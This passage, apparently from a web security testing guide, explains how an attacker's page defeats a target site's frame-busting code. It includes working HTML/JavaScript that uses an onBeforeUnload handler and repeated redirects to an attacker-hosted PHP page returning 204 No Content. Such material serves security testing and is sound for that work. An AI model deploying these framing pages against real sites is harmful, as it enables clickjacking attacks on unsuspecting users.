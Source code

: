 - Design mode: Paul Stone showed a security issue concerning the “designMode” that can be turned on in the framing page (via document.designMode), disabling JavaScript in top and sub-frame. The design mode is currently implemented in Firefox and IE8.

##### OnBeforeUnload Event

The `onBeforeUnload` event could be used to evade frame busting code. This event is called when the frame busting code wants to destroy the iframe by loading the URL in the whole web page and not only in the iframe. The handler function returns a string that is prompted to the user asking confirm if he wants to leave the page. When this string is displayed to the user is likely to cancel the navigation, defeating target's frame busting attempt.

The attacker can use this attack by registering an unload event on the top page using the following example code:

```html
<h1>www.fictitious.site</h1>
<script>
    window.onbeforeunload = function()
    {
        return " Do you want to leave fictitious.site?";
    }
</script>
<iframe src="http://target site">
```

The previous technique requires the user interaction but, the same result, can be achieved without prompting the user. To do this the attacker have to automatically cancel the incoming navigation request in an onBeforeUnload event handler by repeatedly submitting (for example every millisecond) a navigation request to a web page that responds with a “HTTP/1.1 204 No Content” header.

Since with this response the browser will do nothing, the resulting of this operation is the flushing of the request pipeline, rendering the original frame busting attempt futile.

Following an example code:

204 page:

```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```

Attacker's page:

```html
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://target site">
```

